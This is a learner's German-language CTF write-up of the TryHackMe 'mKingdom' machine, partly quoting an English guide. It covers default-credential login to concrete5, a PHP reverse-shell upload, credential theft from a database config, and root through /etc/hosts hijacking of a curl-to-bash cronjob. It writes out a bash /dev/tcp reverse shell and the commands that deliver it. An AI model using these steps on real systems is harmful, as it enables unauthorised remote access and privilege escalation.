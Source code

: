 # Basics

10.10.119.145
# Scanning

PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

PHP/5.5.9-1ubuntu4.29

# Enumeration

/app frei?
-> Blog unter /app/castle
-> concrete5 CMS
-> 2018 Elementalk Theme

Enum Scan für /app/castle
/updates              (Status: 301) [Size: 329] [--> http://10.10.119.145:85/app/castle/updates/]
/packages             (Status: 301) [Size: 330] [--> http://10.10.119.145:85/app/castle/packages/]
/application          (Status: 301) [Size: 333] [--> http://10.10.119.145:85/app/castle/application/]
/concrete             (Status: 301) [Size: 330] 

Output der Robots.txt
User-agent: *
Disallow: /application/attributes
Disallow: /application/authentication
Disallow: /application/bootstrap
Disallow: /application/config
Disallow: /application/controllers
Disallow: /application/elements
Disallow: /application/helpers
Disallow: /application/jobs
Disallow: /application/languages
Disallow: /application/mail
Disallow: /application/models
Disallow: /application/page_types
Disallow: /application/single_pages
Disallow: /application/tools
Disallow: /application/views
Disallow: /ccm/system/captcha/picture

Funktionierende CMS loginpage unter 
http://10.10.119.145:85/app/castle/index.php/login/authenticate/concrete
-> Standard Login tests mit 
admin:admin
admin:password
## Login erfolgreich auf das CMS

Walking the Application 
- User-Email gefunden admin@mingdom.thm

CMS Concrete5 v 8.5.2 
-> RCE vorhanden 

https://vulners.com/hackerone/H1:768322

-> Anpassen der "Allow File Types" und .php datein zulassen
-> hochladen einer PHP Rev Shell 
-> Listener via nc starten
-> Link der Rev Shell Klicken 
http://10.10.119.145:85/app/castle/application/files/6117/5854/6089/rev.php
## Rev Shell erhalten

Privilegien Eskalieren
-> Checken Capabilitys
-> Checken SUID
Checken Sudo 

Alles kein Erfolg. Nachlsesen in Writeup da keine idee zu weiterm Vorgehen. 

The first place I like to check for credentials as www-data is the web configuration file. You see, CMSs like concrete must have a DB to store all the data and users of the website. There has to be a configuration file that contains database credentials to allow the connection between the website and the DB.

Looking around, I end up finding the file in /var/www/html/app/castle/application/config/database.php:

           'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',

# Login auf Toad User Erfolgreich 
nun weiter zu mario user
->  Laden von LinPeas

-> Intressanter Key in der $Env variabel gefunden 
PWD_token=aWthVGVOVEFOdEVTCg==


Da ich hier nicht weitergekommen bin Befolgen von Guide 

 Discovering the cronjob[](https://jaxafed.github.io/posts/tryhackme-mkingdom/#discovering-the-cronjob)

Checking the running processes using `pspy`, we discover a `cronjob` run by the `root` user.

It fetches the script at `http://mkingdom.thm:85/app/castle/application/counter.sh` using `curl`, runs it by piping it to `bash`, and appends the output of it to the `/var/log/up.log` file.

Unfortunately, we are not able to overwrite or replace the `counter.sh` script at `/var/www/html/app/castle/application/counter.sh`.

### Abusing writable hosts file[](https://jaxafed.github.io/posts/tryhackme-mkingdom/#abusing-writable-hosts-file)

Also, running `linpeas`, we discover that we are able to write to the `/etc/hosts` file.

Cronjob uses the `mkingdom.thm` hostname to fetch the script to run, and currently it resolves to `127.0.1.1`.

Von hier an bin ich wieder weitergekommen. 

Wir nutzen jetzt hier den Cronjob aus der ein script von 'mkingdom.thm' lädt. Das Funktioniert da wir edit rechte auf die /etc/hosts haben und damit bestimmen können was der Host als "mkingdm.thm " kennt.

Da wir keinen Write Access auf das Script haben müssen wir jetzt noch anpassungen vornehmen.

```
mkdir -p app/castle/application/
echo "bash -i >& /dev/tcp/10.10.40.77/5555 0>&1" > /app/castle/application/counter.sh
```
hier legen wir das Verzeichniss welches im Scriupt benutzt wird an und legen dort unsere Payload "counter.sh" an. Als Payload nutzen wir hier eine einfache Bash Reverse shell

Dann starten wir unseren easy Webserver. WICHTIG auf Port 85#
```
python3 -m http.server 85
```

und nun Modifizieren wir die /etc/hosts auf dem Ziel 

```
echo '10.10.40.77 mkingdom.thm' > /etc/hosts
```

Jetzt können wir mir NetCat die Rev shell fangen und haben Root Access

```
rlwrap nc -lvnp 5555
```

Jetzt ist nur noch eine sache etwas Tricky, wir wissen wo die Root.txt und die User.txt ist bekommen aber trotzdem beim auslesen Probleme, da wir in den Verzeichnissen nicht auslesen können. Das beheben wir indem wir die Datein in /tmp schieben 

```
cp root.txt /tmp
cd /home/mario
cp user.txt /tmp
```

Und tadaa haben wir beide Flaggs.

# Learnings für mich 

## Linpeas Lernen 
## Seite besser erkunden ->  Login Page finden

# Privilegien Eskalieren üben
